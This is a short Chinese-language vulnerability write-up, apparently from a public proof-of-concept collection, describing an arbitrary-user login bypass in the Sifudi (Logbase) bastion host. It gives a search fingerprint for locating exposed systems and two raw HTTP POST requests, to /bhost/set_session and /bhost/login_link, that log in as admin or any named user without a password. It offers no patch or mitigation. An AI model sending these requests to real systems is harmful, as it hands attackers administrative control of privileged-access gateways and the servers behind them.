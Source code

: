 # 思福迪堡垒机 任意用户登录漏洞

## 漏洞描述

思福迪堡垒机存在任意⽤户登录漏洞，恶意攻击者可以绕过堡垒机的密码登录验证机制，以任
意⽤户身份随意登录堡垒机Web管理界⾯，并可以正常的使⽤账户权限去操作。

## 漏洞影响

```
思福迪堡垒机
```

## 网络测绘

```
"Logbase运维安全管理系统"
```

## 漏洞复现

获取INFO字段，u1参数值为⽤户名

```plain
POST /bhost/set_session HTTP/1.1
Host: xxx.xxx.xxx.xx
u1=admin&m1=
```



获得：**{"result":true,"info":"1562205376847","ErrMsg":""}**



带⼊INFO字段进⼊如下请求的 a0 参数值中,uCode参数值为⽤户名

```plain
POST /bhost/login_link HTTP/1.1
Host: xxx.xxx.xxx.xxx
a0=1562205376847&a1=&a10=2019-01-
01+10:10:10&ha=CADFDF26E649FB6284D2FD424BD294B6&uCode=admin&vdcode=
```



利用后即可登录后台

![](images/202202101953637.png)